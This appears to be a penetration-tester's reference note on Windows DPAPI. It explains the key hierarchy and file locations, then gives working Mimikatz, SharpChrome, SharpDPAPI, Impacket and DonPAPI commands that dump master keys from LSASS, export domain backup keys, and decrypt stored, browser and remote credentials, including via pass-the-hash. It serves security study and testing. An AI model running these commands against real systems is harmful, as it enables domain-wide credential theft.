

## Windows DPAPI credentials

> [!abstract]+ **Scope**: DPAPI architecture, master key file structures, Preferred key tracking, domain backup key retrieval, Credential Manager vault extraction, browser credential stores, and remote DPAPI secret dumping.

Data Protection API (DPAPI) is a Windows-native cryptographic API that allows applications to encrypt and decrypt sensitive data without manually handling key management.

DPAPI protects sensitive data across Windows subsystems and applications:
- **Chromium-based browsers** (Google Chrome, Microsoft Edge, Brave) encrypt saved credentials, cookies, and payment data via DPAPI.
- **Windows Credential Manager** encrypts stored domain, RDP, network, and application credentials.
- **Microsoft Outlook** encrypts S/MIME certificates and account credentials.
- **Wireless profile configurations** encrypt Wi-Fi pre-shared keys (PSK).
- **Saved RDP connection files (`.rdp`)** encrypt embedded passwords.
- **OpenSSH agent** encrypts private keys on disk.

## Understanding DPAPI architecture

DPAPI exposes two main API functions:
- [`CryptProtectData()`](https://learn.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptprotectdata) to encrypt plaintext into a DPAPI blob.
- [`CryptUnprotectData()`](https://learn.microsoft.com/en-us/windows/win32/api/dpapi/nf-dpapi-cryptunprotectdata) to decrypt a DPAPI blob into plaintext.

DPAPI does not encrypt application data directly with the user password. It uses a key hierarchy where user credentials protect a master key file, and the master key derives session keys to encrypt data blobs.



- Windows derives a logon credential hash from the user password (SHA-1 for local accounts, NT hash for domain accounts).
- The credential hash and user SID pass through PBKDF2 (4,000 to 8,000 iterations) to generate the **DPAPI pre-key**.
- The DPAPI pre-key encrypts and decrypts the 512-bit (64-byte) **Master Key file** stored on disk.
- Windows combines the Master Key with random salt values stored inside the DPAPI blob to derive symmetric **session keys** for encryption.

> [!important]+ **Master key files and Preferred key tracking**:
> - Master key files are named by their GUID and stored in the user profile:
> ```powershell
> C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<SID>\<GUID>
> ```
> - The `Preferred` file in that directory contains the GUID of the currently active master key used for new encryptions.
> - Windows rotates master keys every 90 days. Older master key files are retained in the directory to allow decryption of legacy DPAPI blobs.
> - Master key files have the **hidden** attribute set on disk. Use `Get-ChildItem -Hidden` to view them.

DPAPI blobs returned by `CryptProtectData()` contain:
- The **GUID of the Master Key** required for decryption.
- The **salt** value used to derive the session key.
- Algorithms used for symmetric encryption (AES-256 or 3DES) and integrity hashing (SHA-512 or SHA-1).

> [!note] Obtaining a user's master key enables offline decryption of all DPAPI blobs encrypted with that key. Obtaining the user password allows offline derivation of the DPAPI pre-key to decrypt master key files.


## Enumerating DPAPI master keys and credentials

### Locating master key files

Master key files are stored in the user profile directory using their assigned GUID filename:

```powershell
# User roaming master key path
C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<SID>\

# User local master key path
C:\Users\<user>\AppData\Local\Microsoft\Protect\<SID>\
```

System and service account master keys are located in system directories:

```powershell
# SYSTEM account master keys
C:\Windows\System32\Microsoft\Protect\S-1-5-18\

# LocalService and NetworkService account master keys
C:\Windows\System32\config\systemprofile\AppData\Roaming\Microsoft\Protect\
C:\Windows\System32\config\LocalService\AppData\Roaming\Microsoft\Protect\
C:\Windows\System32\config\NetworkService\AppData\Roaming\Microsoft\Protect\
```

- Enumerate master keys for a specific user:

```powershell
Get-ChildItem -Hidden C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<SID>
```

- Enumerate SYSTEM master keys:

```powershell
Get-ChildItem -Hidden C:\Windows\System32\Microsoft\Protect\S-1-5-18\
```

- Recursively locate all user master key files:

```powershell
Get-ChildItem -Recurse -Hidden C:\Users\*\AppData\Roaming\Microsoft\Protect\ 2>$null
```

### Locating Credential Manager files and vaults

- Credential Manager stores DPAPI-encrypted credential files in per-user and system-wide paths:

```powershell
# User Credential Manager files
C:\Users\<user>\AppData\Roaming\Microsoft\Credentials\
C:\Users\<user>\AppData\Local\Microsoft\Credentials\

# Credential Vault locations
C:\Users\<user>\AppData\Local\Microsoft\Vault\
C:\ProgramData\Microsoft\Vault\
```

> [!note] See [[🛠️ Credential Manager]] for full vault architecture (`Policy.vpol`, `.vcrd`, `.vsch`), native enumeration (`cmdkey`, `vaultcmd`), and `runas /savedcred` abuse.

### Locating browser credential stores

Chromium browsers store saved passwords and cookies in SQLite database files:

- Google Chrome:
  - `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data`
  - `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Cookies`
  - `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Local State`
- Microsoft Edge:
  - `%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Login Data`
  - `%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Local State`

> [!note] In Chrome 80+, individual entries in `Login Data` are encrypted with an AES-256 key (`v10` prefix). The AES key itself is stored encrypted in `Local State` (`os_crypt.encrypted_key`) as a standard DPAPI blob.

### Locating Wi-Fi profiles

- Wireless pre-shared keys (PSK) are saved as DPAPI-encrypted XML files:

```powershell
C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\<interface_GUID>\
```

> [!note] See [[🛠️ Windows credential hunting#Wi-Fi profiles]] for full `netsh wlan` enumeration and plaintext PSK recovery.

### Automated enumeration with Seatbelt

Seatbelt enumerates master key paths, credential files, vaults, and browser presence.

```powershell
.\Seatbelt.exe DpapiMasterKeys
.\Seatbelt.exe CredFiles
.\Seatbelt.exe Vault
.\Seatbelt.exe ChromiumPresence
```

| Flag / Command | Description |
| :--- | :--- |
| `DpapiMasterKeys` | Enumerates master key files across user and system directories. |
| `CredFiles` | Lists stored Credential Manager blob files. |
| `Vault` | Displays metadata for Windows Credential Vaults. |
| `ChromiumPresence` | Identifies installed Chromium browser profile directories. |

## Extracting DPAPI master keys

Master keys are extracted using cached memory values, derived using plain-text user passwords, or decrypted via domain backup keys.

### Extracting cached master keys from LSASS memory

When a user logs in, Windows decrypts their active master key and caches the raw 64-byte key in LSASS memory.

1. Enable `SeDebugPrivilege` in Mimikatz:

```powershell
privilege::debug
```

2. Extract cached master keys from LSASS:

```powershell
sekurlsa::dpapi
```

Output includes master key GUIDs and 64-byte raw hex master key strings.

### Deriving DPAPI pre-keys manually

If you possess the user's plain-text password and SID, Mimikatz derives the DPAPI pre-key to decrypt target master key files on disk:

```powershell
mimikatz.exe "dpapi::masterkey /in:C:\Users\jdoe\AppData\Roaming\Microsoft\Protect\S-1-5-21-1234567890-1234567890-1234567890-1001\<GUID> /sid:S-1-5-21-1234567890-1234567890-1234567890-1001 /password:passwd123 /protected" exit
```

| Flag | Parameter | Description |
| :--- | :--- | :--- |
| `/in` | Path | Absolute path to target master key file. |
| `/sid` | User SID | Target user Security Identifier. |
| `/password` | `passwd123` | Target user plain-text logon password. |
| `/protected` | Toggle | Specifies account protected status during pre-key derivation. |

### Decrypting master keys via domain backup keys (MS-BKRP)

In Active Directory environments, master key files contain a backup copy encrypted with the domain's public recovery key. When a user changes or resets their domain password, Windows contacts the Domain Controller via RPC (MS-BKRP protocol) to request master key decryption.

If executing commands under the target user's context, request the DC to decrypt the master key file:

```powershell
mimikatz.exe "dpapi::masterkey /in:C:\Users\jdoe\AppData\Roaming\Microsoft\Protect\S-1-5-21-1234567890-1234567890-1234567890-1001\<GUID> /rpc" exit
```

| Flag | Parameter | Description |
| :--- | :--- | :--- |
| `/in` | Path | Absolute path to target master key file. |
| `/rpc` | Toggle | Calls MS-BKRP protocol on Domain Controller to unwrap master key. |

### Extracting domain backup keys

Domain Admins can export the domain's private backup key (`.pvk`) to decrypt any master key across all domain users offline.

1. Export the private backup key from the Domain Controller:

```powershell
mimikatz.exe "privilege::debug" "lsadump::backupkeys /system:dc01.example.com /export" exit
```

2. Decrypt any target master key using the exported `.pvk` file:

```powershell
mimikatz.exe "dpapi::masterkey /in:C:\Users\jdoe\AppData\Roaming\Microsoft\Protect\S-1-5-21-1234567890-1234567890-1234567890-1001\<GUID> /pvk:ntds_capi_0_<GUID>.pvk" exit
```

| Flag | Parameter | Description |
| :--- | :--- | :--- |
| `/system` | `dc01.example.com` | Domain Controller FQDN. |
| `/export` | Toggle | Writes domain private key to `.pvk` file in current working directory. |
| `/pvk` | Path | Path to exported domain private key file. |

## Decrypting DPAPI blobs

### Decrypting raw DPAPI blobs

Raw DPAPI blobs generated by `CryptProtectData()` are decrypted with Mimikatz `dpapi::blob` when given the target master key:

```powershell
mimikatz.exe "dpapi::blob /in:blob.bin /masterkey:<64_byte_masterkey> /unprotect" exit
```

| Flag | Parameter | Description |
| :--- | :--- | :--- |
| `/in` | `blob.bin` | Path to file containing raw DPAPI blob. |
| `/masterkey` | Key string | 64-byte hex master key. |
| `/unprotect` | Toggle | Displays decrypted cleartext output. |

### Decrypting Credential Manager files

Decrypt Credential Manager files stored under `\Credentials\` using the corresponding master key:

```powershell
mimikatz.exe "dpapi::cred /in:C:\Users\jdoe\AppData\Roaming\Microsoft\Credentials\<file_GUID> /masterkey:<64_byte_masterkey>" exit
```

### Decrypting browser credentials

Decrypt Chrome and Edge database logins using Mimikatz `dpapi::chrome`:

```powershell
mimikatz.exe "dpapi::chrome /in:\"C:\Users\jdoe\AppData\Local\Google\Chrome\User Data\Default\Login Data\" /masterkey:<64_byte_masterkey>" exit
```

### Extracting secrets with SharpChrome

SharpChrome automates Chrome 80+ AES key unwrapping and SQLite database parsing:

```powershell
# Extract Chrome logins using master key
.\SharpChrome.exe logins /masterkey:<64_byte_masterkey>

# Extract Chrome cookies
.\SharpChrome.exe cookies /masterkey:<64_byte_masterkey>

# Interactive extraction in target user session
.\SharpChrome.exe logins
```

### Extracting secrets with SharpDPAPI

SharpDPAPI performs automated triage and credential extraction across Chrome, Credential Manager, and Vaults:

```powershell
# Triage user secrets without decryption
.\SharpDPAPI.exe triage

# Extract user credentials in current session context
.\SharpDPAPI.exe credentials

# Decrypt credentials with explicit master key
.\SharpDPAPI.exe credentials /masterkey:<64_byte_masterkey>
```

| Flag | Parameter | Description |
| :--- | :--- | :--- |
| `triage` | Command | Scans disk paths and outputs DPAPI blob metadata. |
| `credentials` | Command | Extracts and decrypts Credential Manager entries. |
| `/masterkey` | Key string | Provides explicit 64-byte master key for offline decryption. |

## Dumping DPAPI credentials remotely

Linux-based tools extract DPAPI secrets remotely via SMB and RPC.

### Decrypting remote master keys with Impacket dpapi.py

Impacket `dpapi.py` derives DPAPI pre-keys from user passwords or decrypts master keys using domain private keys (`.pvk`):

- Derive pre-key and decrypt master key file:

```bash
python3 dpapi.py masterkey -file masterkey_file -sid S-1-5-21-1234567890-1234567890-1234567890-1001 -password 'passwd123'
```

- Retrieve domain backup key remotely as Domain Admin:

```bash
python3 dpapi.py backupkeys -t example.com/jdoe:'passwd123'@10.10.11.5 --export
```

- Decrypt master key using exported `.pvk` domain backup key:

```bash
python3 dpapi.py masterkey -file masterkey_file -pvk backupkey.pvk
```

| Flag | Parameter | Description |
| :--- | :--- | :--- |
| `-file` | `masterkey_file` | Target master key file path. |
| `-sid` | SID string | Target user SID. |
| `-password` | `'passwd123'` | Plain-text logon password. |
| `-pvk` | `backupkey.pvk` | Domain private backup key file. |

### Automating remote extraction with DonPAPI

DonPAPI automates remote DPAPI credential collection across target domain hosts:

- Extract secrets using domain credentials:

```bash
python3 DonPAPI.py 'example.com/jdoe:passwd123@10.10.11.5'
```

- Extract secrets using Pass-the-Hash:

```bash
python3 DonPAPI.py 'example.com/jdoe@10.10.11.5' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0
```

- Extract secrets using Kerberos Pass-the-Ticket:

```bash
KRB5CCNAME=/tmp/jdoe.ccache python3 DonPAPI.py -k -no-pass 'example.com/jdoe@dc01.example.com'
```

| Flag | Parameter | Description |
| :--- | :--- | :--- |
| `-hashes` | `:NT_hash` | NTLM hash formatted as `:LM_HASH:NT_HASH` or `:NT_HASH`. |
| `-k` | Toggle | Uses Kerberos authentication via `KRB5CCNAME` cache. |
| `-no-pass` | Toggle | Suppresses password prompt when using ticket authentication. |

## References and further reading

- [`Data Protection API — Wikipedia`](https://en.wikipedia.org/wiki/Data_Protection_API)
- [`DPAPI secrets — The Hacker Recipes`](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)
- [`DPAPI - Extracting Passwords — HackTricks`](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html)
- [`Windows - DPAPI — Internal All The Things`](https://swisskyrepo.github.io/InternalAllTheThings/redteam/evasion/windows-dpapi/)
- [`Reading DPAPI Protected Blobs — Tom O'Neill, Medium`](https://medium.com/@toneillcodes/decoding-dpapi-blobs-1ed9b4832cf6)
- [`DPAPI backup keys on Active Directory domain controllers — Microsoft Learn`](https://learn.microsoft.com/en-us/windows/win32/seccng/cng-dpapi-backup-keys-on-ad-domain-controllers)
- [`[MS-BKRP]: BackupKey Remote Protocol — Microsoft Learn`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-bkrp/90b08be4-5175-4177-b4ce-d920d797e3a8)
